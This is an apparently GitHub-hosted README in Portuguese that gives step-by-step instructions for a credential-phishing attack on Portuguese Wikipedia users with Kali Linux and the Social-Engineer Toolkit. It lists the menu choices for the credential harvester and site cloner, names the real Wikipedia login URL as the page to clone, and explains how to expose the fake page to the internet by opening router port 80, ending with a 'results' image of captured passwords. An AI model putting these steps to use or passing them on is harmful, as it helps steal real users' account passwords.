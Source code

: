 # Phishing para captura de senhas da Wikipédia

## Ferramentas

- Kali Linux
- setoolkit

## Configurando o Phishing no Kali Linux
- Obtendo o endereço da máquina: ``` ifconfig ```
- Obtendo o endereço público: ``` curl ifconfig.co ```
- Acesso root: ``` sudo su ```
- Iniciando o setoolkit: ``` setoolkit ```
- Tipo de ataque: ``` Social-Engineering Attacks ```
- Vetor de ataque: ``` Web Site Attack Vectors ```
- Método de ataque: ```Credential Harvester Attack Method ```
- Método de ataque: ``` Site Cloner ```
- URL para clone: https://pt.wikipedia.org/w/index.php?title=Especial:Entrar&returnto=Login

### Observações com o endereço público

- Abra a porta 80 no seu roteador.
- Abra em outra rede (rede móveis por exemplo) com o endereço público:80. Exemplo: 111.111.111:80

### Resutados

![Alt text](./passwd.png "Optional title")
